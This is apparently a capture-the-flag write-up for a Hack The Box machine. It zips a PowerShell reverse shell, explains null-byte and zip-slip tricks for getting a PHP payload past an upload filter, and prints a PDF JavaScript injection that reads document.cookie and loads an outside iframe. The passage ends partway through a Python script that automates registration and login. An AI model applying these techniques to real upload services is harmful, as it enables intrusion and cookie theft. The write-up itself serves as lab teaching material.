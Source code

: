 

```sh
[nix-shell:~/ctf/htb/season8/week3-certificate]$ zip -r assignment.zip revshell.ps1 
  adding: revshell.ps1 (deflated 53%)
```


Ultimately there were 2 ways to do this, the first one is my MODIFIED method of injecting a nullbyte into the name of the payload inside a zip file, this is my preferred way of uploading a php file to the server. The second way is to use a zip slip technique to write a file with a path traversal in the name, this is my fallback method. Specifically it works by zipping one path with a payload, and an accepted file in the root path. Zipping each of these seperately and then catting them together works.

> In hindsigth looking at the code, the path of the zip is passed directly into a winrar extract php exec() function, so this could have been a 3rd vector as well.


```xml
/S /JavaScript
/JS (app.alert\(1\); Object.getPrototypeOf(function*(){}).constructor = null; ((function*(){}).constructor("document.write('<script>confirm(document.cookie);</script><iframe src=https://14.rs>');"))().next();)
```


This is a base64 of a pdf template with JS injections similar to what's seen above


```python
import base64
pdftemplate = base64.b64decode("JVBERi0xLjUKJfb<snip>M2MAolJUVPRgo=")
```

Here we're going to automate a bunch of stuff because registering and logging in is a pain, but managing our zip process is even more of a pain.

Read the code if you can, but the gist is as such: We're going to make a zip file, and the contents of the zip file we're going to name with various payloads. We need our nested zip file to have embedded byte code to trick our unzipper into doing silly things.


```python
import requests
from pprint import pprint
import zipfile
import random
import string
import io
import re

s = requests.Session()

def register(firstname, lastname, username, password):
    userrand = f"{username}-{random.random()}"
    data = {
       "first_name":  f"{firstname}-{random.random()}",
       "last_name": f"{lastname}-{random.random()}",
       "email": f"{firstname}@{random.random()}.com",
       "username": userrand,
       "password": password,
       "password-confirm": password,
       "role": "student"
    }
    r = s.post(f"http://{target}/register.php",data=data)
    print(userrand, password)
    return userrand

def login(username,password):
    data = {
        "username": username,
```